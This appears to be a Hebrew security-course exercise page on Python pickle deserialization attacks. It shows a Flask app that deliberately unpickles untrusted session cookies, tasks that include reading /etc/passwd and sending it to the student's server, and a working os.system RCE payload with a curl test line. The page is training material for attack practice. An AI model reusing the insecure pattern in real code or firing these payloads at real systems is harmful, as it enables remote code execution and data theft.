

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/7 - תקיפות צד שרת מתקדמות/7.4 - דסריאליזציה מתקדמת - Python ו-NET/7.4 - דסריאליזציה מתקדמת - Python ו-NET - תרגיל/index.html · generator: mkdocs

# דסריאליזציה מתקדמת - Python ו-NET - תרגיל

## תרגיל 1 - exploit Python Pickle

### רקע

נתונה האפליקציה הבאה:

```python
from flask import Flask, request, make_response
import pickle
import base64

app = Flask(__name__)

@app.route('/')
def index():
    cookie = request.cookies.get('session_data')
    if cookie:
        try:
            data = pickle.loads(base64.b64decode(cookie))
            return f"Welcome back, {data.get('username', 'unknown')}!"
        except:
            return "Invalid session"

    # Create a new session
    session = {'username': 'guest', 'role': 'user'}
    encoded = base64.b64encode(pickle.dumps(session)).decode()
    resp = make_response("New session created!")
    resp.set_cookie('session_data', encoded)
    return resp

@app.route('/admin')
def admin():
    cookie = request.cookies.get('session_data')
    if cookie:
        data = pickle.loads(base64.b64decode(cookie))
        if data.get('role') == 'admin':
            return "Welcome to admin panel!"
    return "Access denied", 403

if __name__ == '__main__':
    app.run(debug=True, port=5000)
```

### משימות

1. הריצו את האפליקציה מקומית
2. קראו את ה-Cookie ופענחו אותו (Base64 ואז pickle)
3. שנו את ה-role ל-admin כדי לגשת ל-`/admin`
4. צרו Pickle payload שמריץ את הפקודה `id` על השרת
5. צרו Pickle payload שקורא את `/etc/passwd` ושולח את התוכן לשרת שלכם

### פתרון חלקי לסעיף 4

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ("id",))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(f"Cookie value: {payload}")

# Send the Cookie to the application:
# curl http://localhost:5000/ -b "session_data=PAYLOAD_HERE"
```

## תרגיל 2 - exploit YAML
